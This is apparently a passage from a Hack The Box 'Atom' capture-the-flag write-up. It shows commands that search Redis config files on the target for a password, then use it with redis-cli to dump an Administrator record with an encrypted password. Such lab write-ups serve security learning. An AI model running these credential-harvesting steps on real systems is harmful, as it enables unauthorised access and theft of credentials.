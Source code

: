 ```shell
PS C:\Program Files\Redis> type *.conf | findstr pass
type *.conf | findstr pass
requirepass kidvscat_yes_kidvscat
# If the master is password protected (using the "requirepass" configuration
# masterauth <master-password>
# resync is enough, just passing the portion of data the slave missed while
# 150k passwords per second against a good box. This means that you should
# use a very strong password otherwise it will be very easy to break.
# requirepass foobared
requirepass kidvscat_yes_kidvscat
# If the master is password protected (using the "requirepass" configuration
# masterauth <master-password>
# resync is enough, just passing the portion of data the slave missed while
# 150k passwords per second against a good box. This means that you should
# use a very strong password otherwise it will be very easy to break.
# requirepass foobared
```

Okay, it's time to have a look at the second term: `redis`.

### redis
What is [`redis`](https://redis.io/) ?
>Redis is an open source (BSD licensed), in-memory data structure store, used as a database, cache, and message broker. Redis provides data structures such as strings, hashes, lists, sets, sorted sets with range queries, bitmaps, hyperloglogs, geospatial indexes, and streams. Redis has built-in replication, Lua scripting, LRU eviction, transactions, and different levels of on-disk persistence, and provides high availability via Redis Sentinel and automatic partitioning with Redis Cluster.

So we'll connect to the redis server and login using the password we cracked, then look inside a bit.<br>
Install `redis-tools` package if you haven't had so.

```bash
┌──(root💀f4T1H)-[~/hackthebox/atom/privesc]
└─> redis-cli -h 10.10.10.237 -a kidvscat_yes_kidvscat
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
10.10.10.237:6379> ping
PONG
10.10.10.237:6379> info keyspace
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
10.10.10.237:6379> select 0
OK
10.10.10.237:6379> keys *
1) "pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff"
2) "pk:ids:User"
3) "pk:ids:MetaDataClass"
4) "pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0"
10.10.10.237:6379> get "pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff"
"{\"Id\":\"ffffffffffffffffffffffffffffffff\",\"SchemaVersion\":\"4.2.0.0\",\"SchemaVersionModified\":\"\\/Date(1617420120000-0700)\\/\",\"SchemaVersionModifiedBy\":\"e8e29158d70d44b1a1ba4949d52790a0\",\"SchemaVersionChecked\":\"\\/Date(-62135596800000-0000)\\/\",\"SchemaVersionCheckedBy\":\"00000000000000000000000000000000\",\"TimeStamp\":637530169345346438}"
10.10.10.237:6379> get "pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0"
"{\"Id\":\"e8e29158d70d44b1a1ba4949d52790a0\",\"Name\":\"Administrator\",\"Initials\":\"\",\"Email\":\"\",\"EncryptedPassword\":\"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi\",\"Role\":\"Admin\",\"Inactive\":false,\"TimeStamp\":637530169606440253}"
10.10.10.237:6379>
```
